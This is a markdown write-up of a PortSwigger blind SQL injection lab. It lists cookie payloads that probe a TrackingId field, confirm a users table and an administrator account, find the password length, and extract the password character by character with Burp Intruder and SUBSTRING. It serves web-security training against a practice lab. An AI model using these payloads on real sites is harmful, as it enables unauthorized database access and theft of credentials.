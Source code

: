 <div align="center">
  <h1>-------------------------- SQLi LABS 002 ---------------------------</h1>
</div>

# [CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Lab 10: Blind SQL injection with conditional responses [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/lab-conditional-responses#)
- This injection will be used in `Cookie` section in `TrackingID` input field of the page.

```
TrackingId=mCKLbQonMlRUp42B' AND '1'='1;  #Returns 'Welcome Back', This boolean condition means the page is vul to Bilnd SQLi
TrackingId=mCKLbQonMlRUp42B' AND '1'='2; #Doesn't Returns 'Welcome Back' 

TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users LIMIT 1)='a;  #Confirming that there is a table called users
TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users where username='administrator')='a; #confirming that there is a user called administrator

TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a #confirming that the password is greater than 1 character in length.
TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users where username='administrator' AND LENGTH(password)>19)='a; #Password is 20 char long
```


### After determining the length of the password, the next step is to `test the character at each position` to determine its value.
- This step involve `Intruder` Module, set the Type: Sniper, Position: $a$, Intruder Setting: Grep-Match 'Welcome Back'
- Injection: `TrackingId=mCKLbQonMlRUp42B' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§;`
- Repeat the same step for every position i.e SUBSTRING(password,2 to 20,1)
- On correct position guessed by payload, it'll flag the `Welcome Back` in result.
- Take the guessed char & note it down.
- ![image](https://github.com/user-attachments/assets/c07e3d8c-e54b-40b1-a268-48a0263e764e)

### Related Concepts: SUBSTRING(string, start_position, length)
```
string: The string from which you want to extract the substring.
start_position: The position in the string to start extracting (1-based index).
length: The number of characters to extract.
```

## Lab 11: [Link]()
